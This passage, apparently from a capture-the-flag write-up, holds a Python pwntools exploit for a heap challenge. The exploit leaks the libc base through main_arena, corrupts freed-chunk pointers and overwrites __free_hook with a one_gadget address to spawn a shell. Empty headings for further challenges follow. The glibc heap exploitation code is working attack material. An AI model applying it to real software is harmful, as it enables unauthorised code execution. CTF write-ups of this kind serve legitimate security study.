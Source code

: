 ```python
	p.sendlineafter("What do you want to input?",con)

def show(idx):
	sla("Your choice?",4)
	sla('Which one do you want to see?',idx)

def dele(idx):
	sla("Your choice?",2)
	sla("?",idx)


add(0x418)
add(0x20)
add(0x408)
add(0x20)

dele(2)
dele(0)

add(0x418)# 0
dele(0)

show(2)
mainarena = uu64()
libc_base = mainarena-libc.sym['__malloc_hook']-0x10-1096
lg('libc_base')

free_hook = libc_base + 0x3c67a8
one = libc_base + 0xf02a4
free = free_hook-0x10
lg('free')

edit(0,p64(libc_base +0x3c4b78)+p64(free_hook-0x10))
edit(2,p64(mainarena)+p64(free_hook-0x10+8)+p64(0)+p64(free_hook-0x10-0x18-5))

add(0x48)# 5

edit(5,p64(one))

dele(1)

p.interactive()
```

## easy_kernal_pwn1

## 720pwn

![image-20220720131443222](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220720131443222.png)


